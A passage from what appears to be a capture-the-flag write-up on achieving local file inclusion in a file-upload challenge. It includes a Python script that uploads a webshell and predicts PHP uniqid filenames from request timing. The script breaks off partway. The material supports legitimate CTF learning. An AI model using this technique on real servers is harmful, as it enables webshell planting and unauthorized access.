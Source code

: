 ## Second step: LFI

The second (and actually for us the hardest) step was achieving LFI. In order to do so we would have to send our file to the server, get the time we sent it, and start brute-forcing the output of the `uniqid` function. Thing is, it would take around 30k requests to the server and our machines were only able to get 3 requests per second. Obviously this wasn't going to be good enough, so one of our teammates (ty uanirudhx) suggested running a droplet near the server so we can make requests faster. Doing this method we were able to get 10 requests per second, meaning it would take about 50 minutes max. During that time I was making a script that would go at 400 requests per second but I wasn't able to get it fully working in time before we eventually achievied LFI. Heres the script we used for it (ty flocto).

```python
import requests
from hashlib import sha256
import datetime
from tqdm import tqdm

def uniqid(time):
    head = int(time)
    tail = round((time - head)*1000000)

    uid = '%08x%05x' % (head, tail)
    return uid

def from_id(uid):
    head = int(uid[:8], 16)
    tail = int(uid[8:], 16)

    time = head + tail/1000000
    return round(time, 6)

def check_elapsed(filename, contents):
    r = requests.post(url, files={"f": (filename, contents)})
    return r.elapsed.total_seconds()

# url = '<redacted ngrok url>'
url = 'https://filestore.web.actf.co/'
file = 'webshell.php'
with open(file, "rb") as f:
    contents = f.read()

# times = []
# for _ in range(25):
#     times.append(check_elapsed(file, contents))
# avg_elapsed = sum(times) / len(times) * 1000000
# print("average elapsed is", avg_elapsed)
# print("min elapsed is", min(times) * 1000000)
# print("max elapsed is", max(times) * 1000000)

start = datetime.datetime.now().timestamp()
r = requests.post(url, files={"f": (file, contents)})
end = start + r.elapsed.total_seconds()
diff = (end - start) * 1000000

# url = 'http://localhost:8080/'
# url = 'https://filestore.web.actf.co/'

print("start", start)
print("end", end)
print("diff", diff)
# exit()

time = start + diff * 4 / 1_000_000 / 5 # midway
```